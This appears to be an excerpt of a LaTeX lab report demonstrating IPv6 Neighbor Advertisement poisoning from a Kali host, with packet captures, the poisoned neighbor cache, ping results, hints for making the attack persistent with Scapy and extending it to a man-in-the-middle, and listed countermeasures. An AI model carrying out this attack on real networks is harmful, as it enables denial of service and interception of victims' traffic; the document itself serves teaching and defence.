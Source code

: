 \documentclass[twocolumn]{NobArticle}
\begin{document}
\begin{lstlisting}
$ tcpdump -r na-poisoning.pcap -nn -vv icmp6
fe80::64a3:2eff:fe83:1e7f >
   2001:470:b5b8:1e82:b89d:d3ff:feec:ea07:
   ICMP6, neighbor advertisement,
   tgt is fe80::64a3:2eff:fe83:1e7f,
   Flags [router, override]
   destination link-address option (2):
      e6:80:50:76:15:46
\end{lstlisting}

Immediately after the injection, arpwatch-clients accepts the override and
its cache entry for the router points to Kali's MAC, while still keeping
the \texttt{router} flag:

\begin{lstlisting}
$ ip neigh show
fe80::64a3:2eff:fe83:1e7f dev eth0
   lladdr e6:80:50:76:15:46 router STALE
\end{lstlisting}

The practical effect is visible right away: pinging the router from the
victim fails completely, because the frames are delivered at layer~2 to
Kali (which silently drops them):

\begin{lstlisting}
$ ping6 -c 3 fe80::64a3:2eff:fe83:1e7f%eth0
3 packets transmitted, 0 received,
   100% packet loss, time 2042ms
\end{lstlisting}

The effect is not permanent: as soon as the kernel revalidates the
\texttt{STALE} entry through Neighbor Unreachability Detection, the
legitimate mapping is restored and the ping succeeds again with normal
RTT:

\begin{lstlisting}
$ ping6 -c 3 fe80::64a3:2eff:fe83:1e7f%eth0
3 packets transmitted, 3 received,
   0% packet loss, time 2012ms
rtt min/avg/max/mdev =
   0.611/1.008/1.758/0.530 ms
\end{lstlisting}

To make the attack persistent it is enough to keep injecting forged
advertisements, for example with
\texttt{send(pkt, inter=1, loop=1)} in Scapy. Because the poisoned entry
is the default gateway, every off-link packet of the victim is hijacked:
dropping the traffic yields a denial of service against the whole external
connectivity of the host, while forwarding it (after enabling
\texttt{net.ipv6.conf.all.forwarding=1} on Kali and poisoning the opposite
direction too) turns the attack into a full Man-in-the-Middle on the
victim's outbound traffic.

The standard countermeasures for these threats are the first-hop security
features available on managed switches (RA Guard, ND inspection, IPv6
source and prefix guard, DHCPv6 guard), together with monitoring tools like
NDPmon or the very arpwatch-style detector running in our network.
\end{document}
